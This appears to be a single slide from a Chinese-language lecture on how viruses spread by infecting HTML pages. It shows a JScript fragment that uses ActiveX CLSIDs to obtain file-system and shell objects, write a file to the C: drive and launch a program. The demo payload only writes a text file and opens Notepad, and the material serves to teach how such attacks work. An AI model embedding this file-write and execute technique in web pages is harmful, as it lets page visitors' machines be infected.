

# 通过感染htm等网页文件传播
     obj.createInstance();                      //创建一个实例

     fso=obj.GetObject();                      //获取文件系统对象，以便写文件

     tsObj=fso.OpenTextFile("c:\\testCLSID.txt",2,true);

     tsObj.Write("Hello FSO");

     tsObj.Close();

     obj.setCLSID("{F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}");

     obj.createInstance();                     //创建一个实例

     WshShell=obj.GetObject();                 //获取Shell对象，以便运行程序

     WshShell.Run("notepad c:\\testCLSID.txt");
   }